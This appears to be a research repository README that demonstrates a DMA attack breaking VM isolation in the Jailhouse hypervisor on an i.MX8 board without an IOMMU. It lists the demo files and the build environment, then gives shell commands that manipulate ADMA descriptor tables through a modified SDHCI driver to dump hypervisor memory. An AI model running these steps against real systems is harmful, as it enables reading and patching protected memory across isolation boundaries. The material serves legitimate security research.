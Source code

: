 # Breaking isolation of Jailhouse with DMA and I/O passthrough
This repository contains a demo and the source code of a DMA attack on the hypervisor Jailhouse on a platform without IOMMU (IMX8QMEVK).  The attacking VM has directly assigned an SD Host Controller (I/O passthrough), which allows it to access an SD card. Through the DMA-capabilities of the SD Host controller and a modified SDHCI driver, the attacking VM is able to read or write to any memory location and bypass the hypervisor.  The driver allows low-level control of ADMA descriptor tables to perform DMA operations. 

**Advertisement**:

​	**The code is given as is and serves simply as a demonstration of a straightforward attack in a virtualized system. For this reason, this modified driver is neither optimized nor developed to run on different environment (e.g. ADMA 64-bit).**



**Demonstration of the attack allowing a VM to dump and patch hypervisor code and data through DMA of the SD host controller: https://www.youtube.com/watch?v=bvEQDTcnRAE**




### Env/
- Root Linux cell: imx8mq.c

- Linux inmate cell: inmate.c
- Root Linux device tree: imx8mq-evk-root.dts
- Linux inmate device tree: inmate.dts
- Script to lunch Jailhouse and the inmate: init_jh

### ADMA/
- Modified SDHCI driver to control ADMA tables: **sdhci-esdhc-imx-dbg.c**

- Convenient script to dump memory region using ADMA: dma_dump.sh

### Experimental environement:

Target platform: NXP i.MX8MQ-evk
Linux version: 6.1.55+g770c5fe2c1d1 (oe-user@oe-host) (aarch64-poky-linux-gcc (GCC) 12.3.0, GNU ld (GNU Binutils) 2.40.0.20230703)

**Yocto Build configuration:**
	BB_VERSION           = "2.4.0"

​	BUILD_SYS            = "x86_64-linux"

​	NATIVELSBSTRING      = "universal"

​	TARGET_SYS           = "aarch64-poky-linux"

​	MACHINE              = "imx8mqevk"

​	DISTRO               = "fsl-imx-wayland"

​	DISTRO_VERSION       = "6.1-mickledore"

​	TUNE_FEATURES        = "aarch64 armv8a crc crypto"



### Useful control functions on ADMA descriptor tables :

```c
#Allocates 2 pages for the ADMA descriptor table
echo -n -e '\x02\x00\x00\x00'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/request_desc_table
```

```c
#Inserts descripor 0xfdc01000 - 0x00000023 at position 1 in the ADMA descriptor table
echo -n -e '\x00\x10\xc0\xfd\x23\x00\x00\x00\x01\x00\x00\x00'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/insert_desc
```

```c
#Fills the descriptor table with arbitrary descriptors 
echo -n -e '\x00\x00\xe7\xfa\x21\x00\x00\x10'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/fill_custom_desc
```

```c
#Resets the ADMA (does not deallocate the ADMA descriptor table)
cat /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/cat /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/adma_rst_addr
#Frees the allocated pages for the descriptor table
cat /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b40000.mmc/free_desc_table  
#Set ADMA_SYS_ADDR to 0xfaf00000 
./busybox-1.35.0/busybox devmem 0x30b40058 32 0xfaf00000
```

```c
#Dumping 1KB of RAM from memory 0xFDC00000 to file /mnt/out on the SD card
insmod sdhci-esdhc-imx-dbg.ko 
mount /dev/mmcblk2p2 /mnt/ && ls /mnt/
#bs X count of dd define the amount of data to be dumped from the given adress
echo -n -e '\x00\x00\xc0\xfd'  > /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/adma_dump && dd if=/dev/random of=/mnt/out bs=1k count=1 && cat /sys/devices/platform/soc\@0/soc\@0\:bus\@30800000/30b50000.mmc/adma_reset && umount /mnt/ && mount /dev/mmcblk2p2 /mnt/ && hexdump -C /mnt/out
```

